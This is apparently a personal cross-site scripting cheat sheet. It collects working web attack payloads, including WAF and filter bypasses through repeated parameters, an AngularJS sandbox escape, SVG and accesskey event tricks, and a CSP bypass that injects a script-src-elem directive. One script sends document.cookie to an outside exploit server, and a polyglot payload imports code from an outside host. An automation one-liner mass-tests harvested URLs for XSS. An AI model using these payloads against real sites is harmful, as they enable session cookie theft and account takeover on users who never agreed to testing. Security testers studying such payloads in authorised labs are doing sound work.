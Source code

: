 to bypass the waf : 

```
domain?q=test%22%3e%3c&q=”;var%20a=3;if(a==3){alert(document.cookie);}//
when exist url filter and filter remove (<,>,%22,%3e,%3c,”) from payloads 
try use multiple parameter like domain?q=test&q=test%22{xss payload} to bypass filter 

```

---


notes  : 
leran jquery ,angular, json ,xml ,new , constructor,prototype,<svg>

jquery : $('#id').function 

angular : ng-add , {{code}}

sometimes you can breack the json object (pretty) when they use eval function

if you inject in the head and you have note event use this attribiute : 
accesskey='x' and now you need to tab ALt+x (canonical link tag)

&apos='

<script>document.location='//https://exploit-0a970003042784fa83c2b91b014a0021.exploit-server.net/'+document.cookie</script>

"><svg/onload=alert(1)>

angular : 1&toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1

<svg><a><text x=10 y=10>clikck me</text></a></svg>
<svg><animatetransform+onbegin%3Dalert%281%29>


----------------------------------------------------------------------
payload to find all reflection : 
JavaScript://%250A/*?'/*\'/*"/*\"/*`/*\`/*%26apos;)/*<! →</Title/</Style/</Script/</textArea/</iFrame/</noScript>\74k<K/contentEditable/autoFocus/OnFocus=/*${/*/;{/**/(import(/https:\\X55.is?1=14564/.source))}//\76 →

kind of automation : 
echo "urls.txt" | gauplus | grep "?" | qsreplace 'xssz"><img/src=x onerror=confirm(999)><!--' | httpx -mr '"><img/'

”><sCrIpT>alert(“WHOAMI?”)</ScRiPt>

__________________________________________________________________________
to bypass the CSP : ( if we have a parameter in the csp header in the response)
;script-src-elem%20%27unsafe-inline%27  


waybackurls
arjun 
dalfox


you are fuckin cooked in xss.